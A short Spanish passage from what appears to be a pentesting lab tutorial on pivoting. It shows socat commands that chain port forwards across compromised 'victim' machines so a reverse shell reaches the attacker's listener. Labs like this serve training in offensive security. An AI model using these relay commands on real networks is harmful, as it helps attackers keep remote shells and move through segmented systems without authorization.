 
```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_victima_1:puerto_maquina_victima_1
```


Desde la máquina víctima 1, ahora ejecutamos casi el mismo comando, solo que ahora como puerto de escucha indicamos el mismo puerto que se configuró en el anterior comando, al cual le mandamos todo el tráfico. También indicamos a dónde debemos mandar este tráfico, en este caso, lo debemos mandar a nuestra máquina atacante por el puerto en el que estamos en escucha. El comando sería el siguiente:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_atacante:puerto_maquina_atacante
```


Ahora, mandamos nuestra reverse shell desde la máquina víctima 6 a la máquina víctima 5 por el puerto especificado, y gracias a socat, la reverse shell debería llegar a la máquina atacante.




